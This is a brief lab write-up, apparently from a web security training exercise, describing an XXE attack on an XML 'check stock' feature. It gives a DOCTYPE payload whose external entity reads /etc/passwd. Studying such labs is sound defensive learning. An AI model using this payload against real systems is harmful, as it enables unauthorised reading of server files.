 ## Overview  
The lab has function "check stock" that uses xml format. I try declare a new dtd with entity retrieve the contents of `/etc/passwd`  
`<!DOCTYPE xxe [<!ENTITY abc SYSTEM "file:///etc/passwd">]>`  
![image](https://user-images.githubusercontent.com/22276823/127724995-a299e2e2-07df-466c-88e7-4a506f92c574.png)  
